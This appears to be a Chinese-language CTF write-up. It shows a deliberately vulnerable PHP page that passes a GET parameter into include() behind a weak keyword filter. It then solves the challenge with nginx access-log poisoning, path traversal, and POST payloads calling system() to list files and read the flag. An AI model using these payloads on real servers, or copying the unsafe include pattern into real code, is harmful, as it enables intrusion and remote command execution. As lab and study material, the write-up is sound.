





```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```


过滤了

php

data

:


日志注入

```
?file=../../../../../../var/log/nginx/access.log
```







命令执行

GET

```
?file=../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```



GET

```
?file=../../../../../../var/log/nginx/access.log
```

POST

```
a=system("tac fl0g.php");
```

